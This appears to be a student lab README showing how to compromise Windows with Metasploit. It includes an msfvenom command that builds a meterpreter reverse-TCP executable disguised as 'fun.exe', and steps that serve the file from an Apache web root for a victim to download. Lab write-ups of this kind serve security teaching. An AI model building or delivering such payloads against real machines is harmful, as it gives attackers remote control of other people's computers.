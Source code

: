 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:

![image](https://github.com/user-attachments/assets/0aefccb0-15b1-4319-8950-3bde65b867b1)
Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![image](https://github.com/user-attachments/assets/afa93003-0550-437f-af4b-556a420fa1c8)
copy the fun.exe into the apache /var/www/html folder
Start apache server
sudo systemctl apache2 start
![image](https://github.com/user-attachments/assets/42a365d9-0ae1-4572-a186-cd48d34f751e)
Check the status of apache2


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
